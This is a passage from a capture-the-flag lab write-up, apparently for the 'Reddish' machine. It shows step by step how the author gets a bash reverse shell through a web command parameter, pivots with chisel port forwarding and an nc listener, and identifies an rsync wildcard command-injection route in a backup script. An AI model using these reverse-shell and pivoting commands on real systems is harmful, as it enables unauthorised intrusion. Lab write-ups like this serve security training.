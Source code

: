 ```bash
http://localhost/web.php
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2017.png)

It did. Now let’s get a reverse shell. First, capture the request on burp, change the request method to POST, and:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.16.4/9001 0>&1'
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2018.png)

Since the host only have internal IP address, we are not reachable. We need to use chisel again to port forward. Let’s use our node-red host as the pivot.

Now , let’s enable local port forward on port 9001:

```bash
./chisel client 10.10.16.4:8005 9001:localhost:9001 &
```

Now, let’s start a listener:

```bash
#on attack
nc -lnvp 9001
```

Let’s change our payload to listen on the .3 network:

```bash
cmd=bash -c 'bash -i >& /dev/tcp/172.19.0.3/9001 0>&1'
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2019.png)

We now have shell:

![image.png]({{ site.baseurl }}/assets/reddish/image%2020.png)

## WWW host

Enumerating the host, we find a /backup dir. We find a script backup.sh:

```bash
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
```

The script backups file up with rsync, however, since there is a wildcard use for input files, there is a command injection vulnerability here. 

Searching rsync up in gtfobin, we find that if we use the `-e` option, we can execute commands and break out of rsync. 

